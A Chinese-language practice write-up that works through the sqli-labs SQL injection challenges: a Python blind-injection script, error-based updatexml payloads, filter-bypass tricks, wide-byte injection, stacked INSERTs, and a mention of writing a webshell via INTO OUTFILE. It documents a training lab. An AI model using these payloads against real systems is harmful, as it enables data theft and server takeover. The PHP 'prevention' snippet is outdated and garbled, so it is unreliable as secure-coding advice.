

# sql-lab

> (记录了一点难度稍微高一丢丢的),网上应该全套的也不少

## less 4

双引号注入，这个屏蔽了单引号，没读题导致注入了半天：

~~~
http://2b676f25-940e-4b98-b4a7-af89b243f461.node3.buuoj.cn/Less-4/?id=1" and "1"="2
~~~

## less5

盲注脚本

~~~python
import requests
def login(_id):
    url = "http://d4f9d5dc-4df8-4883-8aec-9cac4065e793.node3.buuoj.cn/Less-5/?id="+_id #target
    # data = {
    #     "id":_id
    #     #"username":_username,
    #     #"password":_password
    # }
    response = requests.get(url) #get:requests.get
    #print(response.text)
    request_headers = response.headers
    #print(request_headers)
    content = response.content
    if b"You are in..........." in content:
        return True
    else:
        return False

def main():
   # _username = "1' and ascii(substring((select flag from ctftraining.flag),1,1))=102--+"
    #_username = "1' and ascii(substring((select flag from ctftraining.flag),1,1))=102--+"
    #login(_username)
    find_name = ""
    for i in range(0x50):
        # 0x80 = 128 , 0x20 = 32 ,32-128为可显示字符，32-128为可显示字符区间
         for j in range(0x80,0x20,-1):
            # mysql 官方注释  "-- " --后面有空格,或者用 "#"
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/gROup_conCAt(sCHEma_name)/**/From/**/inFormation_SChema.scHemata),%d,1)))=%d))#" %(i,j)    #此处是payload,需要改动
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/sCHEma_name/**/From/**/inFormation_SChema.scHemata/**/Limit/**/3,1),%d,1)))=%d))#" %(i,j)
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/group_concat(Table_name)/**/From/**/inFormation_SChema.tAbles/**/where/**/taBle_schema='sql1'),%d,1)))=%d))#" %(i,j)
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/group_concat(columN_name)/**/From/**/inFormation_SChema.columns/**/where/**/taBle_naMe='admin'),%d,1)))=%d))#" %(i,j)
            _username = "1' and ascii(substring((select flag from ctftraining.flag),%d,1))=%d--+" %(i,j)
            # _username = "amin' or (ASCII(sUBsTring((user()),%d,1)=%d )) --" %(i,j)
            # _username = "amin'or(((asCIi(sUBString((sELEct/**/group_concat(scheMA_Name)/**/FRom/**/inforMATion_scheMa.schemaTa),%d,1)))=%d))-- " % (i, j)
            # 可改动处
            _password = "amid";
            print(_username)
            if login(_username):
                find_name+=chr(j)
                print(find_name)
                break
if __name__ == "__main__":
    main()

~~~

## less6

跟5是一样的，只用把单引号换成双引号就行了。

## less7

mysql中与load data infile 想反的就是 select into outfile命令

记得合理配置，需要在mysql.ini里面加入如下的


~~~
ecure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的。

当secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出

当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

当secure_file_priv的值没有具体值时（null值），表示不对mysqld 的导入|导出做限制
~~~

Payload:

~~~
http://10.211.55.3/sqli-labs/Less-7/?id=%27))%20union%20Select%201,2,3%20into%20outfile%20%22C:/phpstudy_pro/WWW/sqli-labs/Less-7/1.txt%22--+
~~~

写进去一个小马，蚁剑链接就OK啊~~~但是我本地Win10环境，所以对木马做一点简单的免杀奥。

## less8

这个是布尔盲注，跟less4是一样的

## less9

这个略有不同，是基于时间的盲注，其源码特点为



无论你注入成功与否，其页面显示是相同的，所以我们通过判断网站的反应时间来判断时间盲注。

## Less 13

报错注入，重点在于理解其中的原理：语句如下：

~~~
语句：
    select count(*) from information_schema.tables group by concat((select user()),floor(rand(0)*2));
原理：
    报错注入的原理在于group by 的时候，后面的字段被当做了主键，但是rand(0)给出的数据是伪随机的，所以，我们会使得group by在执行的过程中 后面的字段发生了变化，所以当出现了两个主键的时候就发生了报错。
~~~

## less 14

不过是13的双引号的形式而已。

## less 15

Sql 语句如下：

@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";

不过是post类型，其实跟get的手法还是很像的。

## less17

这里学到了预防数据库攻击的方法：

~~~php
function check_input($value)
{
// 去除斜杠
if (get_magic_quotes_gpc())
{
$value = stripslashes($value);
}
// 如果不是数字则加引号
if (!is_numeric($value))
{
$value = “‘” . mysql_real_escape_string($value) . “‘”;
}
return $value;
}
$con = mysql_connect(“localhost”, “hello”, “321″);
if (!$con)
{
die(‘Could not connect: ‘ . mysql_error());
}
// 进行安全的 SQL
$user = check_input($_POST['user']);
$pwd = check_input($_POST['pwd']);
$sql = “SELECT * FROM users WHERE
user=$user AND password=$pwd”;
mysql_query($sql);
mysql_close($con);
?>
~~~

源码：

~~~php

// connectivity 
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";

$result=mysql_query($sql);
$row = mysql_fetch_array($result);
//echo $row;
	if($row)
	{
  		//echo '<font color= "#0000ff">';	
		$row1 = $row['username'];  	
		//echo 'Your Login name:'. $row1;
		$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
		mysql_query($update);
  		echo "<br>";
	
	
	
		if (mysql_error())
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			print_r(mysql_error());
			echo "</br></br>";
			echo "</font>";
		}
		else
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			//echo " You password has been successfully updated " ;		
			echo "<br>";
			echo "</font>";
		}
	
		echo '';	
		//echo 'Your Password:' .$row['password'];
  		echo "</font>";
	


  	}
	else  
	{
		echo '<font size="4.5" color="#FFFF00">';
		//echo "Bug off you Silly Dumb hacker";
		echo "</br>";
		echo '';
	
		echo "</font>";  
	}
~~~

可以看到在password处存在注入，因为uername检查严格，所以不可以使用了。

```undefined
1' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)#
```

审计后发现存在报错注入，所以

$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";


## less18

这个跟19其实是一样的，不过是注入的地方在http头部的 user-agent

## Less19

~~~php
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
	
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,20);
		}

		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
			{
			$value = stripslashes($value);
			}

		// Quote if not a number
		if (!ctype_digit($value))
			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			}
		
	else
		{
		$value = intval($value);
		}
	return $value;
	}


	$uagent = $_SERVER['HTTP_REFERER'];
	$IP = $_SERVER['REMOTE_ADDR'];
	echo "<br>";
	echo 'Your IP ADDRESS is: ' .$IP;
	echo "<br>";
	//echo 'Your User Agent is: ' .$uagent;
// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

	{
	$uname = check_input($_POST['uname']);
	$passwd = check_input($_POST['passwd']);
	
	/*
	echo 'Your Your User name:'. $uname;
	echo "<br>";
	echo 'Your Password:'. $passwd;
	echo "<br>";
	echo 'Your User Agent String:'. $uagent;
	echo "<br>";
	echo 'Your User Agent String:'. $IP;
	*/

	//logging the connection parameters to a file for analysis.	
	$fp=fopen('result.txt','a');
	fwrite($fp,'Referer:'.$uname."\n");
	
	fclose($fp);
	
	
	
	$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
			mysql_query($insert);//这里存在将referers存入数据库的操作
			//echo 'Your IP ADDRESS is: ' .$IP;
			echo "</font>";
			//echo "<br>";
			echo '<font color= "#0000ff" font size = 3 >';			
			echo 'Your Referer is: ' .$uagent;
			echo "</font>";
			echo "<br>";
			print_r(mysql_error());			
			echo "<br><br>";
			echo '';
			echo "<br>";
			}
		else
			{
			echo '<font color= "#0000ff" font size="3">';
			//echo "Try again looser";
			print_r(mysql_error());
			echo "</br>";			
			echo "</br>";
			echo '';	
			echo "</font>";  
			}

	}

?>
~~~

可以看到username 和 password都是有安全检查的，


这是个新的知识点了，referer头注入：

### referer

[Referer ](http://www.sojson.com/tag_referer.html)是 [ HTTP ](http://www.sojson.com/tag_http.html)请求`header` 的一部分，当浏览器（或者模拟浏览器行为）向`web` 服务器发送请求的时候，头信息里有包含 [ Referer ](http://www.sojson.com/tag_referer.html)。比如我在www.google.com 里有一个`www.baidu.com` 链接，那么点击这个`www.baidu.com` ，它的`header` 信息里就有：

  Referer=http://www.google.com

由此可以看出来吧。它就是表示一个来源。

简单来说，他就是标识改url的上一个url而已，不过其本身也有控制访问权限的作用，其和origin是又差别的，origin代表的是来源的主域名。

$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('',updatexml(1,concat(0x3a,database(),0x3a),1))#', '$IP')";

',updatexml(1,concat(0x3a,database(),0x3a),1))#

关键在于对这个的构造，如上就可以了。

## less 20

这个其实也不过是换成了cookie注入，不过buu那里好像有点问题，本地搭建的抓包抓不到就算了。。。

## less 21

这个是在cookie注入的情况下加入了 ) 的一个绕过

$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";

## less22

感觉没啥好记录的，也是http包的一个注入

## less23

这个就第一次出现Waf了，禁用了注释符：

~~~php
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
~~~

sql注入语句：

>1' union select 1,database(),'3

## less24

mysql_real_escape_string 改php函数会对输入的字符串进行转义，是的其可以安全的被mysql_query()函数使用


但是这里明显的出现了sql注入，因为其没有对username进行检查,所以只要我们队用户名进行构造，那么当我们进行密码修改是，可以修改其他用户的密码：

payload :admin'#

## less 25

~~~php

function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
	
	return $id;
}

~~~

看到如下我们就知道，禁用了or 和 and ，不过其实这两句并不影响注入的后续操作。

# 重点，因为加了如果绕过方法

## less 26

```php
查看源码
function blacklist($id)
{
    $id= preg_replace('/or/i',"", $id);         //strip out OR (non case sensitive)
    $id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive)
    $id= preg_replace('/[\/\*]/',"", $id);      //strip out /*
    $id= preg_replace('/[--]/',"", $id);        //Strip out --
    $id= preg_replace('/[#]/',"", $id);         //Strip out #
    $id= preg_replace('/[\s]/',"", $id);        //Strip out spaces
    $id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes
    return $id;
}

空格和注释无法使用
绕过空格的几种
%09 tab键 %0a 新建一行 %0c 新的一页 %od return功能 %0b tab键垂直 %a0 空格

用%A0替代空格使用，用&&(%26%26)替代AND使用
构造payload： 0'%A0UNION%A0SELECT%A01,version(),database()%26%26%a0'1
这道题还可以使用盲注实现
0'||left(database(),1)='s'%26%26'1'='1
同样报错注入也可以实现
0'||updatexml(1,concat(0x7e,(Select%0a@@version),0x7e),1)||'1'='1

只要将空格和and绕过 那么实现就简单了
or和and 很好过滤，注释过滤了就使用永真闭合，
```

payload 如下：

```php
0'||updatexml(1,concat(0x7e,(Select%0a@@version),0x7e),1)||'1'='1
```

比较意外的算是||可以绕过空格限制，不过细细想一下确实是这样的。

## less26a

​	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";

这就是跟less26的过滤是一样的，但是加了一个括号,但是如果用的是或操作的话，我们甚至可以不用关心这个括号：

~~~mysql
	$sql="SELECT * FROM users WHERE id=('0'||updatexml(1,concat(0x7e,(Select%0adatabase()),0x7e),1)||'1'='1') LIMIT 0,1";
~~~

其本质还是一种报错注入。

## less27

~~~php

function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
return $id;
}
~~~

这个的黑名单就很多了。不过我不得不说上面找的那个payload真是tmd强大

http://10.211.55.3/sqli-labs/Less-27/?id=0'||updatexml(1,concat(0x7e,(SElect%0adatabase()),0x7e),1)||'1'='1

可以过。

>
>
>```go
>做了这么多了，下来就不说如何拿到数据了，重点在于如何绕过，只要能够找到注入点，剩下的可以利用sqlmap 等等工具直接利用，毕竟在渗透中，没有那么多的时间让我们去消耗
>
>过滤了union和select
>绕过方式：双写 大小写
>0'%0aUnioN%0aSeleCT%0a1,2,3;%00
>0'%A0UnIoN%A0SeLeCt(1),2,3%26%26%a0'1
>
>这里说明一下，冒号可以做闭合用， %00用来截断 这样和注释有相同的含义，这下绕过就多了：注释，分号闭合，冒号%00截断
>也可以是;%23
>```

## less27a

这个跟27还是很一样的，但是双引号加的很恶心：


这个""十分不好闭合，因为有可能会


这样，所以我们要换个思路。但是还是很好绕过的


## less28&&less28a

这两个都是布尔注入的一些绕过，这里其实更值得注意的是php语法：

~~~php
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out spaces.
~~~

这里的i 代表的是不区分大小写，s是啥意思。。。看了看正则表达式的语法，才知道这是匹配所有的空白包括换行 // 中间夹杂的是正则表达式。

## less29

~~~php
$qs = $_SERVER['QUERY_STRING'];
~~~

看样子是这一句上了waf,所以查了查

'QUERY_STRING'

query string（查询字符串），如果有的话，通过它进行页面访问。

两个payload

~~~
id=-1'union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata--+
~~~

~~~
?id=1&id=0' union selEct 1,group_concat(schema_name),2 from information_schema.schemata;%23
~~~

看了半天的wp才发现在根目录也有一个tomcat的压缩包，里面有相关的waf解释。


发现id是tomcat获得的参数，qs是apache获得的参数，所以说第一个参数 纯数字，第二个参数用来注入就可以了。

## less30&&less31

双引号闭合和括号闭合而已

## less32

mysql_query("SET NAMES gbk")

宽字节注入

## less33

mysql_query("SET NAMES gbk");

$id=check_addslashes($_GET['id']);

返回字符串，该字符串为了数据库查询语句等的需要在某些字符前加上了反斜线。这些字符是单引号（`'`）、双引号（`"`）、反斜线（`\`）与 NUL（**`NULL`** 字符）。

所以还是宽字节注入

~~~
%df' union select 1,database(),3;%23
~~~

## less34

uname=%df' union select 1,database();%23&passwd=admin&submit=Submit

只不过是换成了post

## less35

这个是数字型的，所以addslashes函数也就没那么重要了，构造payload

SELECT * FROM users WHERE id=1 union select 1,database(),3;

发现不能获得，

SELECT * FROM users WHERE id=-1 union select 1,database(),3;

id加了个负号，发现可以获得，好奇。。。就去mysql试了试；


可以看到，是两句都成功执行导致的，因为页面只能显示3个字段，如果都成功的话，那么就有6个数据要显示，那么是不行的，所以通过-1使得前面的语句没有结果。

## less36

还是宽字节注入id=%df%27%20union%20select%201,database(),3;%23

## less37 

宽字节POST


## less38


这个题目还是源码比较重要一点


这就使得我们可以进行更多的操作，如改payload:

```mysql
1';insert into users(id,username,password) values ('16','a','a')--+
```

## less39,40,41

跟上面那个一样，只不过闭合方式不一样。

## less42

POST类型的堆叠注入


可以看到语句中的password没有过滤，看到这几个函数基本就想起了堆叠注入，所以payload如下：

```
';insert into users values(99,'zhong','zhong')#
```

## less43

跟42一样就是加了)的闭合。

## less44

还是一样，不过是盲注，可能不太好看到结果。

```
a';insert into users values(107,'aaa'，'aaa')#
```

## less45

好多都一样了开始，我看看后面的wp，觉得等以后闲着练手不错，就先不刷了。